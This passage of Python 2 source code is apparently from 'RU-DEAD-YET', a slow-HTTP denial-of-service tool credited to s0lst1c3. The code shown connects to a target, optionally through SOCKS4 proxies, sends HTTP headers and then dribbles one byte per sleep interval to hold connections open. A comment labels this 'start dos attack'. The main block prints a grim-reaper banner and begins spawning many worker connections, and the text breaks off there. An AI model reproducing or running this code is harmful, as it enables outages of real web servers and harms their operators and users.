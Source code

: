             sock.setproxy(PROXY_TYPE_SOCK4, proxy['address'], proxy['port'])

        else:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((configs['host'], configs['port']))

        print '[worker %d] Successfully connected to %s' % (i, configs['target'])

        # start dos attack
        print '[worker %d] Beginning HTTP session... sending headers' % i
        sock.send(headers)
        while True:
            print '[worker %d] Sending one byte to target.' % i
            sock.send("\x41")
            print '[worker %d] Sleeping for %d seconds' % (i, configs['sleep_time'])
            time.sleep(configs['sleep_time'])
    except KeyboardInterrupt:
        pass
    sock.close() 

if __name__ == '__main__':

    print '''

        
                       ...
                     ;::::;
                   ;::::; :;
                 ;:::::'   :;
                ;:::::;     ;.
               ,:::::'       ;           OOO\\
               ::::::;       ;          OOOOO\\
               ;:::::;       ;         OOOOOOOO
              ,;::::::;     ;'         / OOOOOOO
            ;:::::::::`. ,,,;.        /  / DOOOOOO
          .';:::::::::::::::::;,     /  /     DOOOO
         ,::::::;::::::;;;;::::;,   /  /        DOOO
        ;`::::::`'::::::;;;::::: ,#/  /          DOOO
        :`:::::::`;::::::;;::: ;::#  /            DOOO
        ::`:::::::`;:::::::: ;::::# /              DOO
        `:`:::::::`;:::::: ;::::::#/               DOO
         :::`:::::::`;; ;:::::::::##                OO
         ::::`:::::::`;::::::::;:::#                OO
         `:::::`::::::::::::;'`:;::#                O
          `:::::`::::::::;' /  / `:#
           ::::::`:::::;'  /  /   `#


            RU-DEAD-YET
				.: Written by s0lst1c3
				.: Inspired by the original by Hybrid Security

'''

    # set things up
    configs = configure()
    connections = []

    try:

        # spawn child processes to make connections
        for i in xrange(configs['connections']):
